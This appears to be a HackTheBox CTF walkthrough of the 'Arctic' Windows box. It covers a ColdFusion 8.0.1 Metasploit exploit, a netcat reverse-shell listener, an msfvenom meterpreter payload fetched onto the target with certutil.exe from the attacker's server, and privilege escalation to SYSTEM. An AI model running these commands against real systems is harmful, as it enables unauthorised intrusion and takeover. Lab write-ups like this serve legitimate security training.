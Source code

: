 +++
title = "HackTheBox Writeup: Arctic"
date = "2019-08-22T01:01:33+02:00"
tags = [
  "hackthebox",
  "writeup",
  "ctf",
]
highlight = "true"
toc = "true"
showdate = "true"
+++
{{%summary%}}
![1](/images/arctic-writeup/1.png)
{{%/summary%}}

Arctic is an easy rated Windows hacking challenge from HackTheBox, here is a writeup/walkthrough to go from boot to root. This box is all about publicly available exploits and known unpatched vulnerabilities.

---

## Enumeration

Let's start with a full port scan using nmap, the network mapper, using the options to enumerate service versions (-sV) and execute safe scripts (-sC):

![2](/images/arctic-writeup/2.png)

We only found two Windows Remote Procedure Call ports and a more unusual one, port 8500 with an unknown service running behind it. Let's connect to it from a web browser to see if we can see anything:

![3](/images/arctic-writeup/3.png)

As it turns out ti's just a web server, one that takes a long time to respond to each request so that with the unusual port number is probably what confused nmap. We are presented two different folders, opening CFIDE reveals something interesting, what seems to be a web application with an administration panel:

![4](/images/arctic-writeup/4.png)

Opening the administrator folder leads us to the login page of an Adove ColdFusion installation:

![5](/images/arctic-writeup/5.png)

One of the first things to do when a web app is found is to look for known vulnerabilities on exploit databases, in my case I'm going to search straight from Metasploit's modules, and in fact we find an interesting arbitrary file upload + code execution exploit for ColdFusion 8.0.1, the version that seems to be running on Arctic judging from the login page:

![6](/images/arctic-writeup/6.png)

---

## Exploitation: getting user.txt

All we need to do to launch this exploit is changing the port number and IP address of our target, however it doesn't seem to work as the exploit fails immediately, probably because of the long response times of the web server:

![7](/images/arctic-writeup/7.png)

In order to fix this we can set up Burp as a proxy to intercept the request responsible for the exploit and see what it does:

![7](/images/arctic-writeup/8.png)

By setting up Burp like this we are telling it to listen to localhost on port 9999 for connections, intercept the requests it receives, and redirect them to Arctic. This way we can tell the exploit to send the exploit to 127.0.0.1:9999 and Burp will intercept it to let us see how it works, in facts after changing the exploit target and re-launching it we receive an incoming connection containing the exploit itself:

![7](/images/arctic-writeup/9.png)

The exploit continues but what is important to note are the parts I enclosed in red rectangles: the first is what is supposed to be the file uploaded on the server. Let's scroll down the end of the exploit though to see where it actually creates a connection, because the payload used in this exploit, according to the settings on Metasploit, is a generic reverse shell:

![7](/images/arctic-writeup/10.png)

From this we can see that Metasploit already set the correct interface as the IP address to connect the box to, and it will connect to us on port 4444 so let's start a netcat listener on our attacking box to receive the connection:

```shell-session
$ nc -lvp 4444
```

Then we can forward the request on Burp, and load the URL of the uploaded file, which will be located in /userfiles/file/VTBMWLQ.jsp:

![7](/images/arctic-writeup/11.png)

We can know where the file was uploaded because the /userfiles directory has been created by the web application when we uploaded the file and we can see it by connecting back to the root of the web server:

![7](/images/arctic-writeup/12.png)

Anyway we are the user "tolis" on the box, this means we can grab user.txt:

![7](/images/arctic-writeup/13.png)

---

## Dropping meterpreter

Now we have to think about becoming administrators on the box. First things first I run the "systeminfo" command to see what version of WIndows we are running and whether it's a 32 or 64 bits OS:

![7](/images/arctic-writeup/14.png)

So we are dealing with Windows Server 2008 R2 Standard, 64-bits. With this info we can pass from a normal cmd shell to a meterpreter shell to have access to all its useful modules. I'll be doing it by dropping an executable on the system (I tried the TrustedSec Unicorn method but for some reason it wouldn't work on this box even though it's supposed to? I dunno) crafted from msfvenom:

```shell-sessuib
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.29 LPORT=9090 -f exe > arctic.exe
```

Then in order to drop it on the box we must start a local webserver on our local machine, I like to do it with PHP:

```shell-session
$ php -S 0.0.0.0:8181 -t .
```

Now we can download the file from our machine using certutil.exe with a command like this:

```shell-session
$ certutil.exe -urlcache -split -f "http://10.10.14.29:9090/arctic.exe" arctic.exe
```

This will save the executable in our current directory so we can run it and enjoy our meterpreter shell after starting a listener on Metasploit:

```shell-session
$ arctic.exe
```

![7](/images/arctic-writeup/15.png)

![7](/images/arctic-writeup/16.png)

For some reason Metasploit failed to load its library containing all the commands so it would give me errors no matter what I tried to do, so I had to load stdapi manually:

```shell-session
meterpreter> load stdapi
```

Then it started to work normally. By running "sysinfo" we can view some information about the system and our meterpreter session, one of these tells us we are actually running a x86 version of meterpreter on a 64 bits OS so this might give us inaccurate results when we run post exploitation modules:

![7](/images/arctic-writeup/17.png)

This can be fixed by listing the currently running processes on the box with the "ps" command, choosing a x64 process ID (PID) and using the "migrate" command to migrate our session on to that process, turning it into a 64 bits meterpreter session. In my case I chose PID number 3380, belonging to conhost.exe:

![7](/images/arctic-writeup/18.png)

And the process migration is successful as we can see from the output of sysinfo:

![7](/images/arctic-writeup/19.png)

---

## Privilege escalation to SYSTEM

Now we can finally use a very useful post exploitation module that looks for missing hot fixes making the system vulnerable to local privilege escalation exploits, the module is called post/multi/recon/local_exploit_suggester and we can use it by pressing Ctrl+Z to put our meterpreter session in the background, typing the following command on the msf console:

```shell-session
msf> use post/multi/recon/local_exploit_suggester
```

And then specify on what session to run the module:

```shell-session
    msf> set session 1
```

And launch it:

![7](/images/arctic-writeup/20.png)

We find out that the box appears to be vulnerable to the schelevator exploit, a fairly common and reliable one, so we are going to use that one. Once again all we need is a "use" command to specify the exploit and a "set" to tell Metasploit on what session to run it, the exploit will create a new listener and session for us once it's done running, and we will have complete control over the box because we'll be SYSTEM:

![7](/images/arctic-writeup/21.png)

So we can grab the root flag and complete our mission:

![7](/images/arctic-writeup/22.png)

